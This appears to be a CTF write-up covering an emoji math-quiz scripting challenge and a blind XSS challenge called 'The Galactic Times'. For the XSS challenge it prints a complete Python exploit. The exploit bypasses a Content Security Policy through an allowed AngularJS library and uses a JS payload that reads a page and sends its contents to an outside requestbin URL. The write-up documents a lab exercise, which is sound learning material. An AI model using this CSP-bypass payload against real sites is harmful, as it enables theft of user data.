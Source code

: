 This challenge had us connect to a netcat listener that gave us a quiz of 500 math questions. The twist was the math questions were in emojis (instead of numbers), each question must be solved in under 2 seconds, and each emoji had a different value every time. 

I noticed that the quiz had 2 options when connected to: '1' to see the emoji values, and '2' to take the quiz. Based on the these factors, I assumed all we needed to do to create a script that creates a Python dictionary that uses the hexcodes of each emoji as the key to its value.

##### The script my team made together:
<script src="https://gist.github.com/dbaseqp/397de1a5620d5ddfc1fa94a497df6a68.js"></script>

### The Galactic Times

This challenge had a feedback form that was vulnerable to XSS. My teammate, NoSecurity, figured out the technical solution for this challenge, so you should check out [his blogpost about HTBCTF](https://nosecurity.blog/) for more details.

#### My part
In short, we had to avoid a CSP to use blind XSS and exfiltrate the flag. 

From the given code of the site, we knew that there was a CSP that is supposed to block XSS, however, it specifically does allow an Angular JS library. After NoSecurity set up the exploit script, I wrote the JS payload that sent a XML HTTP request to the page with the flag, searched the response for the part containing the flag, and returned it to our request bin.

##### Our exploit:

```
import requests

# Exploit settings
target_ip = '138.68.181.43:30419'
target_endpoint = '/api/submit'
target_url = 'http://' + target_ip + target_endpoint
cloudflare_vulnerable_url = 'https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.0/angular.min.js'

# Sensitive page to retrieve
loot_page = '/alien'
loot_url = '/' + loot_page

# JS Payload
request_bin = 'https://requestbin.io/1m536do1?'
flag = 'flag'
exfil1 = 'fetch(\\"/alien\\")'
js_payload = 'var xmlHttp = new XMLHttpRequest();xmlHttp.open(\\"GET\\",\\"' + loot_page + '\\",false);xmlHttp.send();document.location=\\"' + request_bin + '\\" + xmlHttp.responseText.substring((xmlHttp.responseText).search(\\"CHTB{\\"),(xmlHttp.responseText).search(\\"}\\")+1)'

csp_bypass = '<script src=\\"' + cloudflare_vulnerable_url + '\\"></script><K Ng-App>{{$new.constructor(\'' + js_payload + '\')()}}'

post_data = '{\"feedback\":\"' + csp_bypass + '\"}'
post_headers = {'Content-Type':'application/json'}
post_request = requests.post(target_url, data = post_data, headers = post_headers)

print(csp_bypass)
print(post_request.text)
```